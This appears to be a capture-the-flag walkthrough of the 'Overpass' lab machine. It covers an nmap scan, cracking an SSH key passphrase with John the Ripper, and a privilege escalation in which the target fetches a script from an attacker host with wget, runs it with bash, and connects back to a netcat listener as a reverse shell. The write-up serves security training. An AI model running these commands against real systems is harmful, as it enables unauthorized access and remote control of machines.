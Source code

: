 # Overpass CTF Walkthrough

**Target IP:** `10.10.113.221`  
**Date:** May 1, 2025  
**Tools Used:** Nmap, ssh2john, John the Ripper, Python HTTP Server, netcat

---

## 🔍 Reconnaissance

We started with a basic Nmap scan to identify open services on the target:

```bash
nmap 10.10.113.221 -sC -sV
```

**Scan Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```
![Image](https://github.com/user-attachments/assets/916a3e7a-c3b4-4ff7-aaad-d3acb5e6f7ed)

A Golang-based HTTP server and an SSH service were open. We moved on to investigate the web server.

---

## 🌐 Enumeration

Visiting `http://10.10.113.221` in the browser showed a custom Overpass-branded page.

Next, we examined the files provided to us locally, specifically an SSH private key named `id_key` and its associated hash.

To crack the private key, we used `ssh2john` and `John the Ripper`:

```bash
/usr/share/john/ssh2john.py id_key > id.hash
john id.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

**Cracked Password:** `james13`

We now had SSH credentials:
- **User:** james
- **Key:** `id_key`
- **Passphrase:** `james13`

---

## 🔓 Exploitation

We logged in via SSH:

```bash
ssh -i id_key james@10.10.113.221
```

We were successfully logged in as `james` on the remote host:

```text
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
```

We then prepared for privilege escalation by setting up a Python HTTP server to serve a custom shell script:

```bash
cd Music/overpass
mkdir downloads
cd downloads
mkdir src
touch buildscript.sh
nano buildscript.sh  # (Insert reverse shell payload)
cd ..
sudo python3 -m http.server 80
```

Simultaneously, on the remote host we edited `/etc/hosts`, likely to prepare for some redirection or name resolution.

---

## ⚙️ Privilege Escalation

A reverse shell was set to connect back using `nc` on the attacking machine:

```bash
nc -lvnp 4444
```

From the target, the reverse shell payload in `buildscript.sh` was fetched and executed, likely giving root or higher-privilege access.

```bash
wget http://<attacker-ip>/downloads/src/buildscript.sh
bash buildscript.sh
```

After triggering the reverse shell from the victim, a connection was received on port `4444` on our Kali box, confirming successful shell access.

---

## ✅ Summary

| Phase              | Action                                                                 |
|-------------------|------------------------------------------------------------------------|
| Recon              | Nmap scan, discovered ports 22 and 80                                 |
| Enumeration        | Cracked SSH private key passphrase using John                         |
| Exploitation       | SSH access via cracked key, reverse shell hosted via Python server   |
| Privilege Escalation | Executed shell script from target system, received reverse shell     |

---

## 📌 Notes
- The HTTP server needed to be run using Python3 as Python2's `SimpleHTTPServer` was deprecated.
- Make sure file paths match exactly; a 404 was logged due to incorrect path on initial GET request.

---

## proof of completion 
![Image](https://github.com/user-attachments/assets/03f63654-e29c-4240-975a-f849e4eb4042)


 

